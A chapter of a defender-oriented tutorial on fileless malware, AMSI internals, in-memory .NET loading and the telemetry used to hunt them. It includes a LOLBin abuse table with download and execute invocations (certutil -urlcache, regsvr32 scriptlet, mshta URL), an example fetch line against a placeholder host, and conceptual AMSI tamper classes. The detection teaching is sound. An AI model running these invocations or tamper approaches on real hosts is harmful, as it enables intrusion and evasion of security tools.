This is Chapter 4 of the Malware & Evasion notebook. Chapter 3 ended pointing directly here: it established the three inspection surfaces (static file, emulated sandbox, live behaviour), showed that obfuscation, packing and encoding hide code only on the static surface, and singled out two runtime mechanisms — **AMSI** and **memory scanning** — as the places where those static disguises finally fail. This chapter opens up both. It is about the surface where scripts and in-memory code are inspected *at the instant they run*, why attackers moved to **fileless / in-memory execution** to shrink the static surface to nothing, and — because this is a defender-first notebook — exactly what telemetry that move still generates and how blue teams hunt it.

The framing discipline from Chapters 1–3 continues and, if anything, tightens here. Everything is **conceptual, lab-scoped, and defanged**. The only hands-on artifacts are Microsoft's published **AMSI test string** (a benign string, `AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386`, that AMSI providers flag by agreement — it is *not* malware, exactly like EICAR in Chapter 3), harmless PowerShell that prints text, and annotated defensive telemetry. **There is no working AMSI bypass in this chapter, and no in-memory loader you can copy and run.** Naming a bypass *class* and explaining *why it is detected* is defensive knowledge; shipping a working bypass is weaponization, and we do not do it. Tampering with security products, or running code on systems you do not own or lack **written authorization** to test, is a crime in every jurisdiction. Learn this to detect fileless intrusions, to reverse them on a bench, and to conduct sanctioned assessments responsibly — nothing else.

We build from first principles: what "fileless" actually means and why it is not "invisible," what AMSI is and where it sits in the OS, the precise call flow of `AmsiScanBuffer`, the concept classes of AMSI tampering and the detection that answers each, the high-level story of reflective/in-memory .NET loading, a fully worked **defensive** lab (trigger AMSI benignly, read the telemetry, hunt it), a consolidated Detection & Defense part, and a cheat sheet with topic-specific practice.

## Why This Matters

For a decade the detection industry optimised for files: scan the executable, quarantine the bad one. Attackers responded by not using files. **Fileless** or **in-memory** intrusions run payloads that never touch disk as an executable — a PowerShell one-liner that downloads and runs code in memory, a .NET assembly loaded reflectively inside an existing process, shellcode injected into a living process (Chapter 5). Against a *file* scanner, there is nothing to scan. This is the single biggest reason "my AV is clean" stopped meaning "my host is clean," and why AMSI, script-block logging, and EDR memory inspection exist at all.

The critical, calming counter-truth — the one this chapter is built to teach — is that **fileless does not mean traceless.** Code still has to run, and running leaves evidence on the *behavioural* surface: a script host must reconstruct and execute its script (AMSI and script-block logging see it), an in-memory .NET assembly must be loaded by the CLR (ETW's assembly-load provider sees it), injected shellcode must live in executable memory with no file backing (memory scanning sees it), and any of it that reaches out for C2 must use the network (Zeek/Suricata/EDR see it). AMSI is the sharpest of these because it inspects **de-obfuscated content at the moment of execution** — the exact point Chapter 3 kept identifying as where every static disguise collapses.



There is a second reason this matters that is easy to miss: **the shift to fileless changed what "compromise" looks like for responders.** In a file-based incident you have samples to hash, quarantine, and share as IOCs. In a fileless incident the "sample" may exist only as bytes in RAM that vanish at the next reboot, so your evidence is ephemeral and your response must include **live memory capture** before you power-cycle anything. This is why modern IR playbooks say "acquire memory first" for suspected fileless activity — pull the RAM image (and the volatile logs) while the artifacts still exist, because a well-meaning "let's just reboot it" destroys the only copy of the payload. Understanding the surfaces in this chapter is therefore not academic for a responder; it directly changes the order of operations in a real incident.

**Blue-team framing up front:** the working question for the whole chapter is *"if it never hits disk, where does it still show up?"* Answer that for each technique and you have a hunt. **A note on bug bounty, honestly:** there is no meaningful web-app bounty angle to AMSI/fileless execution; the genuine adjacent arenas are malware analysis, detection engineering, purple-team exercises, and the reversing side of CTFs, so those are where the inline notes and the practice section point — no forced bounty box.

## Part 1: What "Fileless" Actually Means — A Spectrum, Not a Binary

"Fileless" is marketing-imprecise; analysts need a sharper model. Almost nothing is *perfectly* fileless — the useful question is *which artifacts touch disk and which live only in memory.* Think of a spectrum:

- **Fully memory-resident** — shellcode injected into a running process (Chapter 5), an implant that only ever exists as bytes in a process's address space. No new file. Persistence, if any, hides elsewhere (registry, WMI, scheduled task pointing at a LOLBin).
- **Living-off-the-land (LOLBins)** — abuse of legitimate, signed, on-box binaries (`powershell.exe`, `mshta.exe`, `rundll32.exe`, `regsvr32.exe`, `wmic.exe`) to run attacker logic. The *tool* is a normal Windows file; the *malicious content* is a script or argument, often pulled from the network or the registry. Disk sees a benign, signed binary; behaviour sees it doing something abnormal.
- **Registry / WMI-resident** — payload stored as base64/encoded data in a registry value or WMI subscription, decoded and executed by a LOLBin at trigger time. A file *scanner* finds nothing; the data lives in the registry hive.
- **Script droppers with a memory hand-off** — a small script on disk (a `.hta`, a macro, a `.js`) whose only job is to reconstruct and run a payload in memory. Minimal disk footprint, real logic in memory.



The taxonomy matters because **each point on the spectrum shifts the artifact to a different data source**, and your detection strategy has to follow it there. Pure memory-residence defeats file scanning but exposes RWX memory and injection events. LOLBins defeat "block unknown binaries" but expose abnormal command lines and parent/child relationships. Registry-residence defeats file scanning but exposes large encoded registry writes and the LOLBin that reads them. **The defender's job is to know, for each technique, which data source still holds the evidence** — and that is exactly the map this chapter draws.

**Red-team relevance (named, not weaponized):** operators choose a point on this spectrum to trade footprint against reliability — fully memory-resident is stealthiest but most fragile (a reboot wipes it), LOLBins are reliable but noisy in command-line telemetry. **IR relevance:** in a fileless incident, your evidence is in EDR memory captures, PowerShell/script-block logs, registry timelines, and network logs — *not* in the file system, which is why disk-only forensics misses these entirely.

### 1.1 Living-off-the-Land Binaries (LOLBins) — the Detail

Because LOLBins are the most common fileless building block a defender meets, they deserve a closer look. A **LOLBin** is a Microsoft-signed, on-box binary whose *intended* function can be repurposed to download, decode, or execute attacker content — so the binary passes application-control and signature checks while doing the attacker's bidding. The community catalogues them in the **LOLBAS** project (Living Off the Land Binaries, Scripts and Libraries), which is essential defender reading.

| LOLBin | Intended use | Abuse (concept) | Hunt signal |
|---|---|---|---|
| `powershell.exe` | admin automation | run scripts, cradles, in-mem .NET | `-enc`, `-w hidden`, odd parent |
| `mshta.exe` | run HTML applications | execute remote `.hta`/JScript | `mshta http...`, mshta→child proc |
| `rundll32.exe` | run DLL exports | run DLL/JS via export | `rundll32 ...,#1`, `javascript:` |
| `regsvr32.exe` | register COM DLLs | "Squiblydoo" remote scriptlet | `/i:http... scrobj.dll` |
| `certutil.exe` | certificate tool | `-urlcache` download, base64 decode | `-urlcache`, `-decode` |
| `wmic.exe` | WMI CLI | remote XSL execution | `/format:'http...'` |
| `bitsadmin.exe` | background transfer | download stager | `/transfer` to odd host |
| `msbuild.exe` | build projects | compile+run inline C# task | inline task, odd parent |

The defensive framing is important: **you usually cannot block these binaries** (Windows needs them), so detection leans on *how they are invoked* — the command-line arguments, the parent process, and the network they touch. A `certutil -urlcache -f http://x/y z` is `certutil` doing something no admin does; `winword.exe` as the parent of `mshta.exe` is a phishing chain. This is why Sysmon Event ID 1 (full command line + parent) is the workhorse of LOLBin detection, and why command-line logging must be enabled (it is not, by default, in older Windows). **The LOLBin lesson ties back to Part 1's spectrum:** the binary is benign on disk, so the evidence is entirely in *behaviour and arguments* — exactly the runtime surface AMSI and Sysmon watch.

### 1.2 Execution vs Persistence — Two Different Fileless Problems

A frequent source of confusion is conflating **fileless execution** with **fileless persistence**; they are separate problems with separate detections, and a payload can be fileless in one and not the other.

- **Fileless execution** = the payload *runs* without a malicious file on disk (a cradle, injected shellcode, in-memory .NET). Detected on the runtime surface: AMSI, 4104, memory scanning, injection events.
- **Fileless persistence** = the payload *survives a reboot/logon* without a malicious file — by living in the registry, a WMI subscription, a scheduled task pointing at a LOLBin, or a COM hijack. Detected by registry/WMI/scheduled-task auditing and by watching *what launches at trigger time*.

The reason the distinction matters operationally: fully memory-resident implants are stealthy at execution but **fragile** — a reboot wipes them — so real intrusions usually pair memory-resident *execution* with some persistence that is itself often fileless (registry/WMI). A defender who understands both knows to look in *two* places: the runtime sensors for the live payload, and the autoruns/registry/WMI/task surfaces for how it comes back. Tools like Sysinternals **Autoruns** enumerate the persistence surface comprehensively, and a clean Autoruns plus a clean `pe-sieve` sweep is a strong (though never absolute) "no fileless foothold" signal.

| Aspect | Fileless execution | Fileless persistence |
|---|---|---|
| Question | how does it run now? | how does it come back? |
| Lives in | process memory, script host | registry, WMI, tasks, COM |
| Detected by | AMSI, 4104, memory scan, injection events | Autoruns, reg/WMI/task auditing, Sysmon 12/13/19-21 |
| Survives reboot? | no (memory) | yes (that's the point) |
| Tooling | pe-sieve, ETW, script logs | Autoruns, WMI enumeration |

## Part 2: What AMSI Is and Where It Sits

**AMSI — the Antimalware Scan Interface** — is a Microsoft-provided, vendor-agnostic API introduced in Windows 10 that lets applications submit content to whatever antimalware product is installed, for scanning, *at the application's discretion*. Its whole reason for existing is the Chapter 3 asymmetry: obfuscated and encoded scripts hide from static scanning but must de-obfuscate themselves to run, so if you give the antimalware engine a hook **at the point of execution**, it sees the real, decoded content regardless of how many layers of Base64, string-splitting, and reversal wrapped it on disk.

AMSI is integrated into a specific, important set of consumers:

- **PowerShell** (v5+) — every script block, every `Invoke-Expression`, every `-EncodedCommand`, submitted decoded.
- **Windows Script Host** — VBScript and JScript (`wscript`/`cscript`).
- **Office VBA macros** — macro content at runtime.
- **JavaScript/VBScript in the scripting engine** and **`mshta`**.
- **.NET (CLR) in-memory assemblies** — from .NET 4.8+, `Assembly.Load(byte[])` submits the assembly bytes to AMSI (`AmsiScanBuffer` via the CLR), which is huge because it closes the "load a C# assembly straight into memory" gap.
- **WMI** and other hosts that choose to integrate.

Architecturally, AMSI is a thin COM-based interface (`amsi.dll`) that the consumer calls; `amsi.dll` forwards the content to the registered **AMSI provider** — the AV/EDR's implementation — which does the actual scanning and returns a verdict.

The design choice worth internalising is that **AMSI is opt-in per consumer, integrated at the point of de-obfuscation.** Microsoft did not try to bolt scanning onto every possible entry point; they instrumented the specific engines where obfuscated content is reconstructed to execute — because that is the one moment the content *must* be in cleartext. That is why the list of consumers is exactly the set of "engines that run reconstructed code": PowerShell, WSH, VBA, JScript/VBScript, and the CLR. Anything that runs code through one of those engines is covered no matter how it was delivered; anything that runs code *outside* those engines (native shellcode) is AMSI's blind spot by design, and is EDR's job instead. Keeping that division of labour straight — **AMSI for script/managed engines, EDR memory/behaviour for native code** — prevents the common mistake of expecting AMSI to catch injected shellcode or, conversely, expecting EDR file scanning to catch an obfuscated PowerShell one-liner.



The core AMSI functions, named so you recognise them in logs and reversing (not to call them offensively):

- `AmsiInitialize` — set up an AMSI session/context.
- `AmsiOpenSession` / `AmsiCloseSession` — group related scans.
- `AmsiScanBuffer` / `AmsiScanString` — submit content; **this is the function that returns the verdict**, and consequently the function every AMSI-tampering technique targets.
- The verdict is an `AMSI_RESULT` enum; a value ≥ `AMSI_RESULT_DETECTED` (32768) means "malicious, block it."

## Part 3: Triggering AMSI Benignly — The Test String Lab

Just as EICAR lets you prove an AV works without malware, Microsoft publishes an **AMSI test string** that every compliant provider flags by agreement. Using it, you can watch AMSI fire, safely, and read the resulting telemetry. The string is:

```
AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386
```

On a lab Windows machine with Defender (or any AMSI provider) enabled, submitting this string to an AMSI consumer triggers a detection. In PowerShell, simply expressing the string is enough because PowerShell hands the script block to AMSI:

```powershell
# BENIGN AMSI functionality test — no malware. On a protected host this is blocked.
'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
```

Realistic result on a protected host:

```
At line:1 char:1
+ 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

That message — `ScriptContainedMaliciousContent` — is AMSI doing its job: PowerShell submitted the content, the provider matched the test signature, and execution was blocked. **The teaching point that connects straight back to Chapter 3:** obfuscate this string however you like on disk (base64, split it, reverse it) and PowerShell will *still* reconstruct the literal string to evaluate it, at which point AMSI sees the reconstructed cleartext and blocks it. Try it benignly:

```powershell
# Even "obfuscated", the runtime must rebuild the flagged string -> AMSI still sees it
$a = 'AMSI Test Sam' + 'ple: 7e72c3ce-861b-4339-' + '8740-0ac1484c1386'
$a
```

Same block. This is the cleanest possible demonstration of why script-level encoding/obfuscation (Chapter 3, Parts 5–7) does not evade the runtime surface: **AMSI scans the reveal.**

### 3.1 How AMSI Is Wired Internally (for reversing and log-reading)

To read AMSI events and to understand the tamper *classes* in Part 4, you need a slightly deeper picture than "PowerShell calls a function." Here is the internal wiring, at the level an analyst reversing a sample or a detection engineer writing a rule actually uses.

When a consumer starts, it calls `AmsiInitialize`, which returns an **`HAMSICONTEXT`** — an opaque handle to a small structure that, among other things, references the registered antimalware provider(s). Providers register themselves as **COM servers** under `HKLM\SOFTWARE\Microsoft\AMSI\Providers`, each keyed by a CLSID; `amsi.dll` walks that list at initialization and instantiates each provider's `IAntimalwareProvider`. Defender's provider (`MpOav.dll`) is the default; an EDR adds its own CLSID.

Per scan, the consumer calls `AmsiScanBuffer(context, buffer, length, contentName, session, &result)`. Internally `amsi.dll` forwards the buffer to each provider's `Scan` method and aggregates the verdict into `result`. A `result` value of **`AMSI_RESULT_DETECTED` (32768)** or above means block.



Two facts fall straight out of this wiring and explain the entire Part 4 tamper taxonomy:

1. **AMSI runs in the consumer's own process.** `amsi.dll`, the context structure, and even the provider COM objects are mapped into `powershell.exe` (or whatever host). A process can, by design, read and write its own memory — so an in-process actor with enough privilege can in principle corrupt the context or patch `AmsiScanBuffer` (tamper **Class A**). This is not a flaw so much as an inherent property of an in-process scanner, and it is exactly why the *backstop* sensors (script-block logging, ETW) live outside the process's easy reach.
2. **Provider registration is a registry list.** Which means provider health, and any tampering with the provider registration, is observable in the registry and by the AMSI subsystem itself — another detection seam.

**Reversing note:** when you triage a sample that touches AMSI, you are looking for references to `amsi.dll`, `AmsiScanBuffer`/`AmsiInitialize`, the `HKLM\...\AMSI\Providers` key, or the well-known constant `0x80070057` (`E_INVALIDARG`) and the value `32768` — samples that manipulate AMSI almost always reference one of these. Naming them here is triage knowledge, not a recipe.

### 3.2 Watching AMSI Fire in the Provider Logs

Triggering AMSI is more instructive when you also read what the *provider* recorded, because that is what shows up in a SOC. With Microsoft Defender as the provider, an AMSI detection writes a **Microsoft-Windows-Windows Defender/Operational Event ID 1116/1117** (malware detected / action taken), and the AMSI subsystem itself can be traced via the **Microsoft-Antimalware-Scan-Interface** ETW provider. A benign illustration of the Defender event from triggering the AMSI test string:

```
Log: Microsoft-Windows-Windows Defender/Operational
Event ID: 1116  (Malware detected)
    Name:       Virus:Win32/AmsiTestSample.A
    Severity:   Severe
    Category:   Virus
    Path:       amsi:_powershell_...
    Detection Source: AMSI
    Process Name: powershell.exe
```

Two details matter for hunting. First, **`Detection Source: AMSI`** tells you the block came from content inspection at runtime, not a file scan — so you know a script host executed flagged content. Second, the **`Path: amsi:...`** pseudo-path encodes the consumer, letting you attribute which host (PowerShell, VBA, .NET) submitted it. **Analyst habit:** pivot from a 1116 with `Detection Source: AMSI` straight to the corresponding 4104 script-block event by process and time, and you have both the verdict and the exact decoded content that triggered it.

To confirm your AMSI providers are healthy (a real prod check, benign):

```powershell
# List registered AMSI providers by CLSID (machine you own) — expect Defender + any EDR
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\AMSI\Providers' |
    ForEach-Object { $_.PSChildName }
```

Realistic output:

```
{2781761E-28E0-4109-99FE-B9D127C57AFE}   # Windows Defender (MpOav)
{XXXXXXXX-....}                          # your EDR's AMSI provider, if any
```

An empty list, or Defender's CLSID missing, means AMSI has **no provider** and is effectively off — itself an alertable condition. This is the kind of coverage gap a defender should monitor for continuously, because "AMSI is enabled but no provider is registered" is a silent failure that looks fine until you check.

## Part 4: Where AMSI Is Weak — Concept Classes (and the Detection for Each)

AMSI is powerful but not omnipotent, and understanding its limits is essential for *defenders* — because knowing where AMSI is blind tells you where to add compensating telemetry, and knowing how tampering works tells you exactly what to alert on. We describe the *concept classes* of AMSI evasion at the level a detection engineer needs, and we pair every one with its detection. **None of this is a working bypass; each is deliberately abstract, and each ends with "here is how the blue team catches it."**

**Class A — Tamper with the in-process AMSI code.** AMSI runs *inside the same process* as the script host (`amsi.dll` is loaded into `powershell.exe`). Because a process can modify its own memory, a sufficiently privileged in-process actor can, in principle, neuter the AMSI check — conceptually, by making `AmsiScanBuffer` always return "clean," or by corrupting the AMSI context so initialization "fails open." This is the most discussed class. **Why it is not a free win, and how it is detected:** modifying `amsi.dll`'s in-memory code or the AMSI context is itself a high-signal behaviour — EDR memory integrity checks and the AMSI provider can detect the patch, Microsoft has repeatedly signatured the well-known patch patterns (so the *bypass strings themselves* are now AMSI-flagged, a nice irony), and the act of flipping memory protections on `amsi.dll` (`VirtualProtect` on a security module) is exactly the kind of API-hook event (Chapter 3, Part 3.1) EDR watches for. Detection: memory tamper alerts on `amsi.dll`, ETW, and AMSI's own anti-tamper.

**Class B — Prevent AMSI from loading / force it to fail initialization.** If `amsi.dll` never initializes for the process, there is no scan. **Detection:** a script host running with AMSI disabled or uninitialized is anomalous; ETW and provider health-checks flag AMSI initialization failures, and script-block logging (Part 6) still records the content independently of AMSI, so you keep visibility even when AMSI is down. This is the whole point of defence-in-depth: script-block logging is a *separate* sensor.

**Class C — Use a host or language version that predates/omits AMSI.** Old PowerShell v2 does not integrate AMSI. **Detection:** PowerShell **v2 engine startup is itself one of the highest-fidelity alerts in Windows** — legitimate modern software does not downgrade to the v2 engine, so `EngineVersion=2.0` in PowerShell logs, or the presence of the .NET 2 runtime being loaded for PowerShell, is a screaming indicator. Defensive action: remove the PowerShell v2 feature entirely.

**Class D — Move the logic out of AMSI's view.** Run the payload as native code (C/C++ shellcode) or via a host that does not call AMSI, so there is no script content to scan. **Detection:** this doesn't defeat AMSI so much as sidestep it — and it lands you squarely on the *other* runtime sensors (memory scanning for injected code, ETW for assembly loads, hooks for the injection APIs). AMSI was never meant to catch native shellcode; that is EDR's job, which is why AMSI and EDR are complementary, not redundant.

| AMSI evasion class | Idea (abstract) | Primary detection that answers it |
|---|---|---|
| A — in-process tamper | make AmsiScanBuffer "fail open" | memory-tamper alerts on amsi.dll, signatured patch strings, VirtualProtect on security module |
| B — block/uninit AMSI | AMSI never initializes | AMSI health/ETW, script-block logging (independent sensor) |
| C — legacy host | PowerShell v2, no AMSI | PSv2 engine start = high-fidelity alert; remove the feature |
| D — leave script world | native shellcode / non-AMSI host | EDR memory scan, ETW assembly-load, injection-API hooks |

The meta-lesson for the blue team is decisive: **AMSI is one sensor in a mesh.** Every way to evade AMSI either (a) generates its own tamper telemetry, or (b) pushes the attacker onto a different sensor that is still watching. Design your detection so that defeating one sensor lights up another — script-block logging behind AMSI, ETW behind script-block logging, memory scanning behind ETW.

### 4.1 Why AMSI Exists — the History That Explains the Design

AMSI's design makes far more sense once you know the problem it was built to solve. Before Windows 10, PowerShell was the attacker's dream: a signed, on-box, fully-featured .NET scripting engine that could do anything, with no content inspection whatsoever. Offensive frameworks (the ones now studied defensively — PowerSploit, the original Empire, Nishang) leaned entirely on PowerShell, and the community response was the **Invoke-Obfuscation** framework, which mechanised every way to make a PowerShell payload unrecognisable to a static scanner: token manipulation, string reordering, encoding, whitespace, and reassembly at runtime.

Static signatures were helpless — that is the Chapter 3 lesson in its purest form: the payload de-obfuscated itself to run, but the scanner only ever saw the obfuscated disk form. Microsoft's answer was structurally elegant: stop trying to catch the obfuscated form on disk, and instead **hook the engine at the moment it de-obfuscates to execute**. That is AMSI. Simultaneously they added **script-block logging (4104)**, which records the de-obfuscated content independently. Together, these two shipped in Windows 10 and fundamentally changed the PowerShell threat model — which is precisely why attackers pivoted to *tampering with AMSI itself* and to *in-memory .NET* (to move logic out of PowerShell), and why Microsoft then extended AMSI to .NET assemblies in 4.8. The arms race is legible as a sequence of "attacker moves to a new surface; defender instruments that surface," and AMSI is the pivotal move that made the runtime surface the main battleground.


**The through-line:** every green (defensive) node instruments the surface the previous attacker move ran on. Understanding this history means you can predict where the next detection seam is — it is always the surface the newest evasion is forced to reveal itself on.

### 4.2 Registry- and WMI-Resident Payloads

The registry and WMI deserve their own note because they are where "fileless" persistence usually hides, and where a lot of analysts stop looking. Neither the registry hive nor the WMI repository is a "file" a scanner examines, so an encoded payload stored there is invisible to file scanning — but very visible to anyone who timelines the registry or enumerates WMI subscriptions.

- **Registry-resident:** a base64/compressed payload is written to a registry value (often a long blob under `HKCU\Software\...` or a `Run` key that launches a LOLBin to decode-and-run it at logon). **Detection:** unusually large registry values, `Run`/`RunOnce` keys pointing at `powershell`/`mshta`/`rundll32`, and Sysmon Event IDs 12/13 (registry create/set) capturing the write. The decode-and-run at trigger time also produces a 4104/Sysmon-1 event.
- **WMI-resident:** a permanent **WMI event subscription** (an `__EventFilter` bound to a `CommandLineEventConsumer` via a `__FilterToConsumerBinding`) fires attacker code on a trigger (a time, a logon, a process start) with SYSTEM privileges and no file. **Detection:** enumerate subscriptions (`Get-WMIObject -Namespace root\subscription -Class __FilterToConsumerBinding`), and subscribe to the WMI ETW/Sysmon Event IDs 19/20/21 which log filter, consumer, and binding creation. A `CommandLineEventConsumer` running PowerShell is a near-certain red flag.

```powershell
# BENIGN defensive enumeration — list permanent WMI subscriptions on a host you own
Get-WmiObject -Namespace root\subscription -Class __EventFilter |
    Select-Object Name, Query
Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer |
    Select-Object Name, CommandLineTemplate
```

Realistic output on a clean host is empty or only benign vendor entries; a malicious one shows a `CommandLineEventConsumer` whose `CommandLineTemplate` launches encoded PowerShell. **The lesson:** these techniques trade the *file* data source for the *registry* or *WMI* data source — so a defender who only watches files is blind, but a defender who timelines the registry and enumerates WMI subscriptions catches them cold. Same principle as everything else in this chapter: know which data source the artifact moved to.

## Part 5: In-Memory .NET and Reflective Loading — the High-Level Story

A large slice of modern tradecraft is built on **.NET in-memory execution** because Windows ships a rich, powerful runtime (the CLR) and offensive toolkits (the kind studied defensively, e.g. the Cobalt Strike `execute-assembly` pattern, or open post-ex tools) load whole C# assemblies straight into a process's memory and run them without ever writing an `.exe`. We keep this strictly conceptual; the goal is that you recognise the *telemetry* it creates.

Conceptually, the flow is: obtain the assembly bytes (embedded, downloaded, or decoded from the registry), call the CLR to load them from a byte array rather than a file path, find the entry-point method by reflection, and invoke it — all in the address space of a host process (which may be a benign, signed process the operator started or injected into).



The two defensive gifts here are exactly the runtime sensors this notebook keeps returning to:

- **AMSI for .NET (4.8+)** submits the *assembly bytes* to the provider on `Assembly.Load(byte[])`, so an in-memory assembly is scanned just like a script. This is why "load a C# tool into memory" is no longer an automatic AMSI blind spot.
- **ETW assembly-load events** record that an assembly was loaded from memory with no backing file — a strong anomaly, because normal .NET apps load assemblies from disk paths. EDRs subscribe to this.

